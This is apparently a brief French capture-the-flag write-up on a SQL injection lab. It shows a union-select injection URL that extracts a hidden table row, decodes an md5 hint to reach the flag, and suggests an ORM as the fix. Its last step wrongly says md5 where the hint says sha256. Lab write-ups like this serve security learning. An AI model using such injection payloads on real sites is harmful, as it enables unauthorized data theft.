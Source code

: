 # Sql_1

## Detection des failles

http://192.168.0.10:8080/index.php?page=searchimg&id=1%20AND%201=2%20union%20select%20url,%20comment%20from%20list_images&Submit=Submit#

On va s interesser à cette ligne:
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

en decryptant le md5, on obtient:
albatroz

Il est deja en minuscule ...

On le crypte maintenant en md5


## Comment s'en premunir

Utiliser un ORM (object-relational mapping) en passant par le serveur,
afin qu'il envoi les données sous forme de classe